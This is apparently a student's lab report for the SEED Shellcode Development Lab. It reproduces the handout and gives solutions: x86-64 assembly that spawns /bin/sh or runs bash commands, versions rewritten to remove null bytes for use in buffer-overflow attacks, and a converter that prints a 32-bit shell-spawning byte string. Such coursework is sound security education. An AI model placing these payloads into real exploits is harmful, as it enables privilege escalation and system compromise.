



## 3.1 SEED Lab (20 pts)
Shellcode Development Lab
https://seedsecuritylabs.org/Labs_20.04/Software/Shellcode/

### Task 1: Writing Assembly Code

To be able to have a direct control over what instructions to use in a shellcode, the best way to write a
shellcode is to use an assembly language. In this task, we will use a sample program to get familiar with the
development environment.
Assembly languages are different for different computer architectures. In this task, the sample code
(hello.s) is for the amd64 (64-bit) architecture. The code is included in the Labsetup folder. Students
SEED Labs – Shellcode Development Lab 2
working on Apple silicon machines can find the arm version of the sample code in the Labsetup/arm
folder.

##### Listing 1: A sample amd64 assembly program (hello.s)

```hello.s
global _start
section .text
_start:
mov rdi, 1 ; the standard output
mov rsi, msg ; address of the message
mov rdx, 15 ; length of the message
mov rax, 1 ; the number of the write() system call
syscall ; invoke write(1, msg, 15)
mov rdi, 0 ;
mov rax, 60 ; the number for the exit() system call
syscall ; invoke exit(0)
section .rodata
msg: db "Hello, world!", 10
```

##### Compiling to object code

We compile the assembly code above using nasm, which is an assembler and
disassembler for the Intel x86 and x64 architectures. For the arm64 architecture, the corresponding tool is
called as. The -f elf64 option indicates that we want to compile the code to 64-bit ELF binary format.
The Executable and Linkable Format (ELF) is a common standard file format for executable file, object
code, shared libraries. For 32-bit assembly code, elf32 should be used.

```
// For amd64
$ nasm -f elf64 hello.s -o hello.o
// For arm64
$ as -o hello.o hello.s
```

##### Linking to generate final binary

Once we get the object code hello.o, if we want to generate the
executable binary, we can run the linker program ld, which is the last step in compilation. After this step,
we get the final executable code hello. If we run it, it will print out "Hello, world!".

```
// For both amd64 and arm64
$ ld hello.o -o hello
$ ./hello
Hello, world!
```

##### Getting the machine code

In most attacks, we only need the machine code of the shellcode, not a stan-
dalone executable file, which contains data other than the actual machine code. Technically, only the ma-
chine code is called shellcode. Therefore, we need to extract the machine code from the executable file or
the object file. There are various ways to do that. One way is to use the objdump command to disassemble
the executable or object file.
SEED Labs – Shellcode Development Lab 3
For amd64, there are two different common syntax modes for assembly code, one is the AT&T syntax
mode, and the other is Intel syntax mode. By default, objdump uses the AT&T mode. In the following, we
use the -Mintel option to produce the assembly code in the Intel mode.

```
$ objdump -Mintel -d hello.o
hello.o: file format elf64-x86-64
Disassembly of section .text:
0000000000000000 <_start>:
0: bf 01 00 00 00 mov edi,0x1
5: 48 be 00 00 00 00 00 movabs rsi,0x0
c: 00 00 00
f: ba 0f 00 00 00 mov edx,0xf
14: b8 01 00 00 00 mov eax,0x1
19: 0f 05 syscall
1b: bf 00 00 00 00 mov edi,0x0
20: b8 3c 00 00 00 mov eax,0x3c
25: 0f 05 syscall
```

In the above printout, the numbers after the colons are machine code. You can also use the xxd com-
mand to print out the content of the binary file, and you should be able to find out the shellcode’s machine
code from the printout.

```
$ xxd -p -c 20 hello.o
7f454c4602010100000000000000000001003e00
...
000000001800000000000000bf0100000048be00
00000000000000ba0f000000b8010000000f05bf
00000000b83c0000000f05000000000000000000
...
```

#### Task

Your task is to go through the entire process: compiling and running the sample code, and then get
the machine code from the binary.



### Task 2: Writing Shellcode (Approach 1)

The main purpose of shellcode is to actually quite simple: to run a shell program such as /bin/sh. In the
Ubuntu operating system, this can be achieved by invoking the execve() system call.
`execve("/bin/sh", argv[], 0)`
We need to pass three arguments to this system call: In the amd64 architecture, they are are passed
through the rdi, rsi, and rdx registers. In the arm64 architecture, they are passed through the x0, x1,
and x2 registers. The pseudo code is listed below:

```
// For amd64 architrecture
Let rdi = address of the "/bin/sh" string
Let rsi = address of the argv[] array
Let rdx = 0
Let rax = 59 // 59 is execve’s system call number
syscall // Invoke execve()
// For the arm64 architrecture
Let x0 = address of the "/bin/sh" string
Let x1 = address of the argv[] array
Let x2 = 0
Let x8 = 221 // 221 is execve’s system call number
svc 0x1337 // Invoke execve()
```

The main challenge of writing a shellcode is how to get the address of the "/bin/sh" string and the
address of the argv[] array? They are two typical approaches:
• Approach 1: Store the string and the array in the code segment, and then get their addresses using the
PC register, which points to the code segment. We focus on this approach in this task.
• Approach 2: Dynamically construct the string and the array on the stack, and then use the stack pointer
register to get their addresses. We focus on this approach in the next task.

#### Task 2.a. Understand the code

We provide a sample shellcode below. This code is for the amd64 architecture. The code can also be found
in the Labsetup folder. If you are working on this lab on an Apple silicon machine, you can find the
sample arm64 code in the arm sub-folder.
Listing 2: A sample 64-bit shellcode (mysh64.s)
```mysh64.s
section .text
    global _start
    _start:
        BITS 64
        jmp short two
    one:
        pop rbx

        mov [rbx+8], rbx    ; store rbx to memory at address rbx + 8
        mov rax, 0x00       ; rax = 0
        mov [rbx+16], rax   ; store rax to memory at address rbx + 16
        mov rdi, rbx        ; rdi = rbx (1)
        lea rsi, [rbx+8]    ; rsi = rbx +8 (2)
        mov rdx, 0x00       ; rdx = 0
        mov rax, 59         ; rax = 59
        syscall
    two:
        call one
        db ’/bin/sh’, 0      ; The command string (terminated by a zero) ¬
        db ’AAAAAAAA’        ; Place holder for argv[0]
        db ’BBBBBBBB’        ; Place holder for argv[1]
```

The code above first jumps to the instruction at location two, which does another jump (to location
one), but this time, it uses the call instruction. This instruction is for function call, i.e., before it jumps
SEED Labs – Shellcode Development Lab 5
to the target location, it saves the address of the next instruction (i.e., the return address) on the top of the
stack, so when the function returns, it can return to the instruction right after the call instruction.
In this example, the “instruction” right after the call instruction is not actually an instruction; it stores
a string. However, this does not matter, the call instruction will push its address (i.e., the string’s address)
into the stack, in the return address field of the function frame. When we get into the function, i.e., after
jumping to location one, the top of the stack is where the return address is stored. Therefore, the pop rbx
instruction actually get the address of the string on Line ¬, and save it to the rbx register. That is how the
address of the string is obtained.

##### Tasks. Please do the following tasks

1. Compile and run the code, and see whether you can get a shell. The -g option enables the debugging
information, as we will debug the code.

```
// For amd64
$ nasm -g -f elf64 -o mysh64.o mysh64.s
$ ld --omagic -o mysh64 mysh64.o
// For arm64
$ as -g -o mysh64.o mysh64.s
$ ld --omagic -o mysh64 mysh64.o
```

Note. We need to use the `--omagic` option when running the linker program ld. By default, the
code segment is not writable. When this program runs, it needs to modify the data stored in the code
region; if the code segment is not writable, the program will crash. This is not a problem for actual
attacks, because in attacks, the code is typically injected into a writable data segment (e.g. stack or
heap). Usually we do not run shellcode as a standalone program.
2. Use `gdb` to debug the program, and show how the program gets the address of the shell string
`/bin/sh`.
3. Explain how the program constructs the `argv[]` array, and show which lines set the values for
`argv[0]` and `argv[1]`, respectively.
4. Explain the real meaning of Lines 1 and 2.
Common gdb commands. Here are some gdb commands that may be useful to this lab. To know how
to use other gdb commands, inside gdb, you can type help to get a list of command class names. Type
help followed by a class name, and you can get a list of commands in that class.

```
$ gdb mysh64
help -- Print out the help information
break one -- Set a break point at section "one"
run -- Start debugged program.
step -- Step program until it reaches a different source line.
print $rbx -- Print out the value of the rbx register
x/40bx <addr> -- Print out the memory at address <addr>
x/40bx $rsp -- Print out the top 40 bytes of the stack
x/5gx $rsp -- Print out the top 4 double-word (8 bytes) of the stack
quit -- Exit from gdb
```
##### solution

 1. From the compilation and debugging output, we can see the code was successfully compiled and a shell was obtained.(Shellcode/task2_output.txt)

 2. The program gets the `/bin/sh` string address through the following sequence:
    - Code jumps to `two`, which executes `call one`
    - The `call` instruction pushes the address of the next instruction (string location) onto stack
    - `pop rbx` retrieves this address (0x4000ad) which points to `/bin/sh`
    - Memory dump shows string bytes at 0x4000ad: `2f 62 69 6e 2f 73 68` (/bin/sh)

 3. The argv[] array is constructed as:
    - `mov [rbx+8], rbx` sets argv[0] to point to "/bin/sh" string
    - `mov [rbx+16], rax` sets argv[1] to NULL (terminator)
    Memory layout:
    - rbx -> "/bin/sh"
    - rbx+8 -> points to "/bin/sh" (argv[0])
    - rbx+16 -> NULL (argv[1])

 4. Lines 1-2 prepare execve() arguments:
    - `mov rdi, rbx` - Line 1 sets first arg (filename) to "/bin/sh" address
    - `lea rsi, [rbx+8]` - Line 2 sets second arg (argv) to address of argv array



#### Task 2.b. Eliminate zeros from the code

Shellcode is widely used in buffer-overflow attacks. In many cases, the vulnerabilities are caused by string
copy, such as the strcpy() function. For these string copy functions, zero is considered as the end of the
string. Therefore, if we have a zero in the middle of a shellcode, string copy will not be able to copy anything
after the zero, so the attack will not be able to succeed. Although not all the vulnerabilities have issues with
zeros, it becomes a requirement for shellcode not to have any zero in the machine code; otherwise, the
application of a shellcode will be limited.
The sample code provided in the previous section is not a true shellcode, because it contains several
zeros. Please use the objdump command to get the machine code of the shellcode and mark all the instruc-
tions that have zeros in the machine code.
To eliminate these zeros, you need to rewrite the shellcode mysh64.s, replacing the problematic in-
structions with an alternative. Section 5 provides some approaches that you can use to get rid of zeros.
Please show the revised mysh64.s and explain how you get rid of each single zero from the code.

##### solution
Here's the revised code

- code : `Shellcode/mysh64_no_zero.s`
- gdb output : `Shellcode/task2b_output.txt`

```nasm
section .text
    global _start
    _start:
        BITS 64
        jmp short two
    one:
        pop rbx

        ; Zero out al without using immediate zero
        xor al, al
        mov [rbx+7], al   ; Null terminate /bin/sh

        ; Store rbx to memory without direct mov
        push rbx
        pop qword [rbx+8]  ; Replaces 'mov [rbx+8], rbx'

        ; Zero out rax without immediate zero
        xor rax, rax      ; Replaces 'mov rax, 0x00'
        mov [rbx+16], rax ; Store null terminator for argv

        ; Setup execve arguments
        mov rdi, rbx      ; First arg: command string
        lea rsi, [rbx+8]  ; Second arg: argv array
        xor rdx, rdx      ; Third arg: envp=NULL (replaces 'mov rdx, 0x00')

        ; Setup syscall number without immediate value
        xor rax, rax
        mov al, 59        ; syscall number for execve
        syscall
    two:
        call one
        db '/bin/sh', 0xFF    ; Command string (terminated later by code)
        db 'AAAAAAAA'         ; Placeholder for argv[0]
        db 'BBBBBBBB'         ; Placeholder for argv[1]
```

Explanations of the zero-eliminating modifications:

1. **Null terminator for `/bin/sh`**:
   - Original: `mov byte [rbx+7], 0`
   - New: Use `xor al, al` to get zero, then `mov [rbx+7], al`

2. **Moving rbx to memory**:
   - Original: `mov [rbx+8], rbx`
   - New: Use `push rbx` followed by `pop qword [rbx+8]`

3. **Zeroing rax**:
   - Original: `mov rax, 0x00`
   - New: `xor rax, rax`

4. **Zeroing rdx**:
   - Original: `mov rdx, 0x00`
   - New: `xor rdx, rdx`

5. **Setting syscall number**:
   - Original: `mov rax, 59`
   - New: First `xor rax, rax` then `mov al, 59`
   - This ensures only the lower byte is set, avoiding zeros in the higher bytes

6. **String termination**:
   - Original: Immediate zero in string
   - New: Use 0xFF as placeholder and programmatically write the null terminator


#### Task 2.c. Run a more complicated command

Inside mysh64.s, we construct the argv[] array for the execve() system call. Since our command is
/bin/sh, without any command-line arguments, our argv array only contains two elements: the first one
is a pointer to the command string, and the second one is zero.
In this task, we need to run the following command, i.e., we want to use execve to execute the follow-
ing command, which uses /bin/bash to execute the "echo hello; ls -la" command.
`/bin/bash -c "echo hello; ls -la"`
In this new command, the argv array should have the following four elements, all of which need to be
constructed on the stack. Please modify mysh64.s and demonstrate your execution result. As usual, you
cannot have any zero in your shellcode.

```
argv[0] = address of the "/bin/bash" string
argv[1] = address of the "-c" string
argv[2] = address of the command string "echo hello; ls -la"
argv[3] = 0
```
##### solution
- code : `Shellcode/mysh64_bash.s`
- screenshots :


```nasm
section .text
  global _start
    _start:
        BITS 64
        jmp short two
    one:
        pop rbx           ; rbx points to the string area

        ; Set up /bin/bash string termination
        xor al, al
        mov [rbx+9], al  ; Terminate /bin/bash

        ; Set up -c string termination
        mov [rbx+12], al ; Terminate -c

        ; Set up command string termination
        mov [rbx+31], al ; Terminate the command string

        ; Set up argv array
        lea rax, [rbx]        ; /bin/bash string
        mov [rbx+32], rax     ; argv[0]

        lea rax, [rbx+10]     ; -c string
        mov [rbx+40], rax     ; argv[1]

        lea rax, [rbx+13]     ; command string
        mov [rbx+48], rax     ; argv[2]

        xor rax, rax
        mov [rbx+56], rax     ; argv[3] = NULL

        ; Execute execve
        mov rdi, rbx          ; First arg: pathname
        lea rsi, [rbx+32]     ; Second arg: argv array
        xor rdx, rdx          ; Third arg: envp = NULL
        mov al, 59            ; syscall number for execve
        syscall

    two:
        call one
        ; String table
        db '/bin/bash'    ; 9 bytes
        db 0xFF
        db '-c'           ; 2 bytes
        db 0xFF
        db 'echo hello; ls -la'  ; 18 bytes
        db 0xFF
        ; Space for argv array (4 pointers = 32 bytes)
        db 'AAAAAAAA'     ; argv[0]
        db 'BBBBBBBB'     ; argv[1]
        db 'CCCCCCCC'     ; argv[2]
        db 'DDDDDDDD'     ; argv[3]
```

Key changes made:

1. Changed `/bin/sh` to `/bin/bash`
2. Added the `-c` argument
3. Added the command string `echo hello; ls -la`
4. Modified the array structure to hold 4 elements instead of 2
5. Updated all the offsets accordingly
6. Added proper null termination for all strings
7. Created the complete argv array with all required pointers

To compile and test:
```bash
nasm -f elf64 mysh64.s -o mysh64.o
ld mysh64.o -o mysh64
./mysh64
```

This should execute bash with the command `echo hello; ls -la`, which will:
1. Print "hello" to the console
2. Show a detailed listing of the current directory

The shellcode avoids null bytes by:
- Using `xor` to generate zeros
- Using `0xFF` as string terminators initially
- Using minimal registers where possible
- Using `lea` for address calculations

#### 3.4 Task 2.d. Pass environment variables

The third parameter for the execve() system call is a pointer to the environment variable array, and it
allows us to pass environment variables to the program. In our sample program, we pass a null pointer to
execve(), so no environment variable is passed to the program. In this task, we will pass some environ-
ment variables.
If we change the command "/bin/sh" in our shellcode mysh64.s to "/usr/bin/env", which
is a command to print out the environment variables. You can find out that when we run our shellcode, there
will be no output, because our process does not have any environment variable.
In this task, we will write a shellcode called myenv64.s. When this program is executed, it executes
the "/usr/bin/env" command, which can print out the following environment variables:

```
$ ./myenv64
aaa=hello
bbb=world
ccc=hello world
```

To write such a shellcode, we need to construct an environment variable array on the stack, and store the
address of this array to the rdx register, before invoking execve(). The way to construct this array on
the stack is exactly the same as the way how we construct the argv[] array. See the following:

```
env[0] = address to the "aaa=hello" string
env[1] = address to the "bbb=world" string
env[2] = address to the "ccc=hello world" string
env[3] = 0 // 0 marks the end of the array
```

### Task 3: Writing Shellcode (Approach 2)

Another approach to get the shell string and the argv[] array is to dynamically construct them on the
stack, and then use the stack pointer register to get their addresses. A sample shellcode (for amd64) using
this approach is listed below. Both amd64 and arm64 code can be found from the Labsetup folder.
Brief explanation of the code is given in the comment, but if students want to see a full explanation, they
can find much more detailed explanation of the code in the SEED book.

```Listing 3: Shellcode using the stack approach (another sh64.s)
section .text
global _start
_start:
xor rdx, rdx ; rdx = 0
push rdx ; push 0 into the stack (terminate the string below)
mov rax,’/bin//sh’
push rax ; push the string into the stack
mov rdi, rsp ; rdi = address of the command string
push rdx ; push argv[1]=0 into stack
push rdi ; push argv[0] into stack
mov rsi, rsp ; rsi = address of the argv[] array
xor rax, rax
mov al, 59 ; execve()
syscall
```

We can use the following commands to compile the assemble code into
64-bit binary code:

```
// For amd64
$ nasm -f elf64 mysh_64.s -o mysh_64.o
$ ld mysh_64.o -o mysh_64
// For arm64
$ as mysh_64.s -o mysh_64.o
$ ld mysh_64.o -o mysh_64
```

#### Task 3.a. The code example shows how to execute "/bin/sh". In this task, we need to revise the

shellcode, so it can execute a more complicated shell command listed in the following. Please write your
code to achieve this. You need to show that there is no zero in your code.
`/bin/bash -c "echo hello; ls -la"`

#### Task 3.b. Please compare the two approaches in this lab. Which one do you like better, and why?

### 5 Guidelines: Getting Rid of Zeros

There are many techniques that can get rid of zeros from the shellcode. In this section, we discuss some of the
common techniques that you may find useful for this lab. Although the common ideas are the same for both
amd64 and arm64 architectures, the instructions are different. In this section, we use amd64 instructions
as examples. Students can working on Apple silicon machines can find the guidelines from this online
document: Writing ARM64 shellcode (in Ubuntu).
• If we want to assign zero to rax, we can use "mov rax, 0", but doing so, we will get zeros in the
machine code. A typical way to solve this problem is to use "xor rax, rax", i.e., we xor rax
with itself, the result is zero, which is saved to rax.
• If we want to store 0x99 to rax. We cannot just use "mov rax, 0x99", because the second
operand is expanded to 8 bytes, i.e., 0x0000000000000099, which contains seven zeros. To solve
this problem, we can first set rax to zero, and then assign a one-byte number 0x99 to the al register,
which represent the least significant 8 bits of the eax register.
xor rax, rax
mov al, 0x99
• Another way is to use shift. Again, let us store 0x99 to rax. We first store 0xFFFFFFFFFFFF99 to
rax. Second, we shift this register to the left for 56 bits; now rax contains 0x9900000000000000.
Then we shift the register to the right for 56 bits; the most significant 56 bits (7 bytes) will be filled
with 0x00. After that, rax will contain 0x00000000000099.
mov rax, 0xFFFFFFFFFFFFFF99
shl rax, 56
shr rax, 56
• Strings need to be terminated by zero, but if we define a string using the first line of the following,
we will have a zero in the code. To solve this problem, we define a string using the second line, i.e.,
putting a non-zero byte (0xFF) at the end of the string first.
db ’abcdef’, 0x00
db ’abcdef’, 0xFF
After getting the address of the string, we can dynamically change the non-zero byte to 0x00. As-
suming that we have saved the address of the string to rbx. We also know the length of the string
(excluding the zero) is 6; Therefore, we can use the following instructions to replace the 0xFF with
0x00.
xor al, al
mov [rbx+6], al
SEED Labs – Shellcode Development Lab 9

### 6 Submission

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.

### A Using the shellcode in attacking code

In actual attacks, we need to include the shellcode in our attacking code, such as a Python or C program.
We usually store the machine code in an array, but converting the machine code printed above to the array
assignment in Python and C programs is quite tedious if done manually, especially if we need to perform this
process many times in the lab. We wrote the following Python code to help this process. Just copy whatever
you get from the xxd command (only the shellcode part) and paste it to the following code, between the
lines marked by """. The code can be downloaded from the lab’s website.
Listing 4: convert.py

```convert.py
# !/usr/bin/env python3

# Run "xxd -p -c 20 mysh.o", and

# copy and paste the machine code part to the following

ori_sh ="""
31db31c0b0d5cd80
31c050682f2f7368682f62696e89e3505389e131
d231c0b00bcd80
"""
sh = ori_sh.replace("\n", "")
length = int(len(sh)/2)
print("Length of the shellcode: {}".format(length))
s = ’shellcode= (\n’ + ’ "’
for i in range(length):
s += "\\x" + sh[2*i] + sh[2*i+1]
if i > 0 and i % 16 == 15:
s += ’"\n’ + ’ "’
s += ’"\n’ + ").encode(’latin-1’)"
print(s)
```

The convert.py program will print out the following Python code that you can include in your attack
code. It stores the shellcode in a Python array.

```bash
$ ./convert.py
Length of the shellcode: 35
shellcode= (
"\x31\xdb\x31\xc0\xb0\xd5\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68"
"\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0"
"\x0b\xcd\x80"
).encode(’latin-1’)
```
